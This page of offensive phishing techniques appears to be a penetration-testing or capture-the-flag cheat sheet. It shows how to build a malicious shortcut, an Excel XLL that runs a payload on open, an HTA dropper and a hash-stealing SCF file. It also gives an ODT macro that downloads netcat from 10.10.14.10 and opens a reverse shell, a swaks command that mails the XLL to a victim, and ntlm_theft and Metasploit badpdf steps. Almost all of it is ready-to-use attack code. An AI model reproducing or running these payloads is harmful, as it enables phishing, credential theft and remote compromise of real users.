 ```yaml
---
title: "Phishing"
date: 2024-6-26
tags: ["phishing", "email", "xll", "excel", "hta", "shortcut", "Windows", "odt", "libre", "vba", "ntlm_theft"]
---
```


---
### Abuse #1: Create a malicious .lnk

```powershell
$obj = New-Object -ComObject WScript.Shell
```

```powershell
$link = $obj.CreateShortcut("C:\ProgramData\Calculator.lnk")
```

```powershell
$link.TargetPath = "C:\ProgramData\rev.exe"
```

```powershell
$link.Save()
```

<br>

---

### Abuse #2: Phishing with XLL (Excel)

[revshells.com](https://www.revshells.com/)

#### shell.c

```c
#include <windows.h>

__declspec(dllexport) void __cdecl xlAutoOpen(void); 

void __cdecl xlAutoOpen() {
    // Triggers when Excel opens
    WinExec("<PowerShell #3 Base64 Payload>", 1); // Replace your payload
}

BOOL APIENTRY DllMain( HMODULE hModule,
                    DWORD  ul_reason_for_call,
                    LPVOID lpReserved
                    )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

#### 1. Compile shell.c using Linux

```bash
x86_64-w64-mingw32-gcc -fPIC -shared -o shell.xll shell.c -luser32
```

#### 2. Send email with the malicious xll file

```bash
swaks --to "victim@victim.com" --from "attacker@attacker.com" --server "victim.com" --header "This is not a malicious file" --body "This is not a malicious file" --attach '@shell.xll'
```

<br>

---

### Abuse #3: Phishing with Shortcut

#### 1. Start a Local SMB Server

```bash
# In our local Linux machine
impacket-smbserver -smb2support share .
```

#### 2. Create a Malicious hta File in local Linux SMB share

[revshells.com](https://www.revshells.com/)

```html
<html>
    <head>
        <HTA:APPLICATION ID="shell">
        <script language="javascript">
            var c = "<PowerShell #3 Base64 Payload>";  
            new ActiveXObject('WScript.Shell').Run(c, 0, true); 
        </script>
    </head>
    <body>
        <script>self.close();</script>
    </body>
</html>
```

#### 3. Create a shortcut file in target Windows

```powershell
# In target Windows machine (powershell)
$url = "file://10.10.14.10/share/shell.hta"
```

```powershell
$shortcutPath = "C:\ProgramData\shell.url"
```

```powershell
$shortcutContent = "[InternetShortcut]`r`nURL=$url"
```

```powershell
Set-Content -Path $shortcutPath -Value $shortcutContent
```

<br>

---

### Abuse #4: Phishing with Shortcut (With SMB Share Write Permission)

If you found any interaction from target to smb share (e.g. cronjob)

#### 1. Start Responder

```bash
# In our local Linux machine
sudo responder -I tun0
```

#### 2. Create a malicious shortcut

```evil.scf
[Shell]
Command=2

IconFile=\\10.10.14.10\icon
```

#### 3. Upload the malicious shortcut

```bash
# In our local Linux machine
smbclient -N \\\\10.10.11.10\\share\\
```

```bash
mput evil.scf
```

<br>

---

### Abuse #5: Phishing with odt (Open Office format)

```
+--------------------------------------------------------+
| 1. "Tools" > "Macros" > "Organize Macros" > "Basic..." |
| 2. "Untitled 1" > "Standard" > "New"                   |
| 3. "Paste the code below"                              |
+--------------------------------------------------------+
```

<br>

```bash
Sub OnLoad
    shell("cmd /c certutil -urlcache -split -f http://10.10.14.10/nc64.exe C:\programdata\nc64.exe && C:\programdata\nc64.exe -e cmd 10.10.14.10 443")
End Sub
```

<br>

```
+-----------------------------------------------------------+
| 4. "Tools" > "Organize Macros" > "Basic..." > "Assign..." |
| 5. "Events" > "Open Document" > "OK"                      |
| 6. "SAVE"                                                 |
+-----------------------------------------------------------+
```

<br>

---

### Abuse #6: Phishing with multiple file types

[ntlm_theft](https://github.com/Greenwolf/ntlm_theft)


```bash
python3 ntlm_theft.py -g all -s 10.10.14.10 -f test
```

<br>

---

### Abuse #7: Create malicious pdf file

```bash
msfconsole -q
```

```bash
search badpdf
```

```bash
set filename evil.pdf
```

```bash
set lhost 10.10.14.10
```

```bash
exploit
```

<br>